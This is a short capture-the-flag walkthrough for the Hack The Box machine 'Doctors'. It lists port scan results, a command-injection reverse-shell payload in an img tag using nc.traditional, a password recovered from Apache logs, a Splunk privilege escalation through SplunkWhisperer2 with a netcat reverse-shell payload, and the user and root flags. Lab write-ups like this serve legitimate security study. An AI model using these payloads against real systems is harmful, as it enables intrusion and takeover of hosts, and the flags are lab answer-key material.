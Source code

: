 <pre>
Machine IP: 10.10.10.209

Enum:
    Open ports:
22/tcp   open  ssh      
80/tcp   open  ssl/http Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Splunkd


Go to the /etc/hosts and add:
    10.10.10.209    doctors.htb
http://doctors.htb/login?next=%2F => login page

    Go to register and create an account!
Go to new message change title with a new one and go for reverse shell:
    `<im g src=http://boxip/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'attackbox'$IFS’attaport')>`
    $ nc -lvnp 9003


User flag:
$ cd    /var/log/apache2
$ backup
$ grep -r password?email
    *backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
$su shaun
$ password: Guitar123
User flag: /home/shaun

Priv Esc:
    *First download https://github.com/cnotin/SplunkWhisperer2 from git on your machine
    ! Make a nc listener 

    $ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.89 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/sh '10.10.14.89' '9002'"

    And got root!


User Flag: 006485ecedf8ff72b584ca87e57c0532
Root Flag: 267ebad127e4cc676902b28cfb61a711
</pre>
